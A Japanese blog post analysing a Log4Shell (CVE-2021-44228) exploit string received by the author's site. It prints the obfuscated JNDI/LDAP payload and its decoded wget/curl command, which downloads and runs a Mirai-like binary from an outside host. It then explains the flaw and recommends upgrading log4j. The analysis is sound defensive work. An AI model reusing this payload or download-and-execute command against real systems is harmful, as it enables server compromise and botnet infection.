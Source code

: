 # log4shellの攻撃コードを見てみる  

私のブログサイトにlog4shellの攻撃コードが送られてきた。こんんなできたばかりの貧相なサイトにも送ってくれる網羅性には感心する。  
なので、ここではその攻撃コードをみんなで見て勉強していきたいと思う。  

## 早速見てみる

まぁ、いきなり見てしまうのが一番なので以下に見てみる。  
```
"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//150[.]136[.]111[.]68[:]1389/TomcatBypass/Command/Base64/d2dldCBodHRwOi8xNTguMTAxLjExOC4yMzYvc3NoZF9wdHk7IGN1cmwgLU8gaHR0cDovMTU4LjEwMS4xMTguMjM2L3NzaGRfcHR5OyBjaG1vZCA3Nzcgc3NoZF9wdHk7IC4vc3NoZF9wdHkgZXhwbG9pdA==}')" "t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//150[.]136[.]111[.]68[:]1389/TomcatBypass/Command/Base64/d2dldCBodHRwOi8xNTguMTAxLjExOC4yMzYvc3NoZF9wdHk7IGN1cmwgLU8gaHR0cDovMTU4LjEwMS4xMTguMjM2L3NzaGRfcHR5OyBjaG1vZCA3Nzcgc3NoZF9wdHk7IC4vc3NoZF9wdHkgZXhwbG9pdA==}')"
```
Note: IPとポートの箇所はマスクした。  
で、攻撃コードにはコマンドがbase64で記載されているため、これをデコードしてみよう。  
```
wget hxxp:/158[.]101[.]118[.]236/sshd_pty;
curl -O hxxp:/158[.]101[.]118[.]236/sshd_pty;
chmod 777 sshd_pty;
[.]/sshd_pty
```
Note: URLはマスクを実施。本来はワンライナーになっていたが、見やすいように改行した。  

まぁ、わかりやすい。sshd_ptyというファイルをダウンロードして実行。  
ちなみにこのsshd_ptyはバイナリ形式であり、fileコマンドで見ると以下のようになっていた。  
```
# file sshd_pty
sshd_pty: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, stripped
```
sha256: 3e30a65e6504969c05b1bed32db2a2a592da110a7d2dbda9f064f13be5390d6c

VirusTotalに上げて見ると、32/59の検知。大半はMiraiで検知していた。  
[VirusTotalの結果](https://www.virustotal.com/gui/file/3e30a65e6504969c05b1bed32db2a2a592da110a7d2dbda9f064f13be5390d6c)

この攻撃コードを送ってくれたのと、コード内にある通信先は以下となる。  
* 送信元: 198[.]98[.]61[.]124
* 送信先: 150[.]136[.]111[.]68

最後に攻撃コードの内容がいくつか難読化（というか検知回避レベル）のトリックがなされているため、若干見やすくしたのが以下となる。  
```
"t('${jndi:ldap://150[.]136[.]111[.]68[:]1389/TomcatBypass/Command/Base64/d2dldCBodHRwOi8xNTguMTAxLjExOC4yMzYvc3NoZF9wdHk7IGN1cmwgLU8gaHR0cDovMTU4LjEwMS4xMTguMjM2L3NzaGRfcHR5OyBjaG1vZCA3Nzcgc3NoZF9wdHk7IC4vc3NoZF9wdHkgZXhwbG9pdA==}')" "t('${jndi:ldap://150[.]136[.]111[.]68[:]1389/TomcatBypass/Command/Base64/d2dldCBodHRwOi8xNTguMTAxLjExOC4yMzYvc3NoZF9wdHk7IGN1cmwgLU8gaHR0cDovMTU4LjEwMS4xMTguMjM2L3NzaGRfcHR5OyBjaG1vZCA3Nzcgc3NoZF9wdHk7IC4vc3NoZF9wdHkgZXhwbG9pdA==}')"
```

こうやって見ると、jndi:ldap://〜URL〜であり、明らかにlog4shellを狙っている。  

さて、いきなり攻撃コードを出したが、ここからはlog4shellがなんなのかを説明していく。  

## log4jの脆弱性(通称：log4shell)  

log4shellは、javaで一般的に利用されるlogging用のフレームワークであるlog4jで検出された脆弱性である。  
**CVE番号: CVE-2021-44228**  

脆弱性はRCEにあたり、任意コード実行が可能となる。脆弱性が悪用しているものは、log4jがLDAPとJNDIのリクエストの内容に関して検証が行えてないことを悪用している。  
以下にあるようにWikipediaにも専用のページが作成されている。  
[log4shellに関する記述](https://ja.wikipedia.org/wiki/Log4Shell)

この脆弱性を利用した場合、jndi:ldap://の後ろにつけられたURLからコードを取得して実行することができる。  

## 対策   

この脆弱性は最新版では修正されているため、アップグレードすることを推奨する。  
この脆弱性自体は、2.15で修正されたが、その他の脆弱性も見つかっているため、2.17にアップグレードすることが推奨される。  

## 所感  

正直、驚きのレベルの脆弱性である。このレベルの脆弱性はshellshock以来のように思う。  
（HeartBleedもあったが、これはRCEではないので、同じ系統で考えると、shellshockが思い浮かぶ）  
まして、log4jはjavaで開発をすると、とりあえずこれにしとけ、てレベルのライブラリであり、これでこんな深刻な脆弱性があるとは想像もしてなかった。  
放置しているサーバもあるだろうし、今後もこの脆弱性は利用されていくだろう。  
参考: [ShellShock](https://ja.wikipedia.org/wiki/2014%E5%B9%B4%E3%82%B7%E3%82%A7%E3%83%AB%E3%82%B7%E3%83%A7%E3%83%83%E3%82%AF%E8%84%86%E5%BC%B1%E6%80%A7)

さて、これでこの記事は一旦終了である。  
この後、この攻撃サーバへの通信を停止することを行う。それについては、Azureの環境のため、Azureセキュリティグループで防止する方法を見ていこう。  

では、終了となります。ありがとうございました。  
